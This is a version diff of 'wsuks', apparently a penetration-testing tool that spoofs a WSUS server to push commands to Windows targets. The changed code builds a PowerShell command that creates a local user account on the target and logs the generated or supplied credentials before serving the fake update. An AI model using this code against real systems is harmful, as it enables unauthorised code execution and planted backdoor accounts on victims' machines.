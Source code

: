 ### Comparing `wsuks-0.3.1/wsuks/helpers/wsusserver.py` & `wsuks-0.4.0/wsuks/helpers/wsusserver.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.3.1/wsuks/wsuks.py` & `wsuks-0.4.0/wsuks/wsuks.py`

 * *Files 16% similar despite different names*

```diff
@@ -24,15 +24,24 @@
         self.local_password = "".join(random.sample(ascii_letters, 16))
 
         # Set args
         self.targetIp = args.targetIp  # Never None (required)
         self.executable_file = args.executable.read()
         self.executable_name = os.path.basename(args.executable.name)
         args.executable.close()
-        self.command = args.command.replace("WSUKS_USER", self.local_username).replace("WSUKS_PASSWORD", self.local_password)
+
+        # Set Command
+        self.command_prefix = 'New-LocalUser -Name "WSUKS_USER" -Password $(ConvertTo-SecureString "WSUKS_PASSWORD" -AsPlainText -Force) -Fullname "wsuks user" -Description "This user was generated by the wsuks Tool"; '
+        if args.username and args.password and args.domain:
+            self.logger.success(f"Using domain user for the WSUS attack: User={colored(args.username, 'green', attrs=['bold'])} Password={colored(args.password, 'green', attrs=['bold'])} Domain={colored(args.domain, 'green', attrs=['bold'])}")
+            self.command = args.command.replace("PREFIX", "").replace("WSUKS_USER", args.domain + "\\" + args.username).replace("WSUKS_PASSWORD", args.password)
+        else:
+            self.logger.success(f"Generated local user for the WSUS attack: Username={colored(self.local_username, 'green', attrs=['bold'])} Password={colored(self.local_password, 'green', attrs=['bold'])}")
+            self.command = args.command.replace("PREFIX", self.command_prefix).replace("WSUKS_USER", self.local_username).replace("WSUKS_PASSWORD", self.local_password)
+        self.logger.success(f"Command to execute: {self.command}")
 
         self.wsusIp = args.wsusIp
         self.wsusPort = args.wsusPort  # Default 8530
         self.domain_username = args.username
         self.domain_password = args.password
         self.domain = args.domain
         self.dcIp = args.dcIp
@@ -56,15 +65,14 @@
         update_handler.set_resources_xml(self.command)
 
         self.logger.debug(update_handler)
 
         # Prepare WSUS HTTP Server
         wsusBaseServer = WSUSBaseServer(update_handler)
         http_server = HTTPServer((self.hostIp, self.wsusPort), wsusBaseServer)
-        self.logger.success(f"Generated Credentials for the WSUS attack: Username={colored(self.local_username, 'green', attrs=['bold'])} Password={colored(self.local_password, 'green', attrs=['bold'])}")
         try:
             self.logger.info(f"Starting WSUS Server on {self.hostIp}:{self.wsusPort}...")
             http_server.serve_forever()
         except KeyboardInterrupt:
             print("")
             self.logger.info("Stopping WSUS Server...")
         finally:
```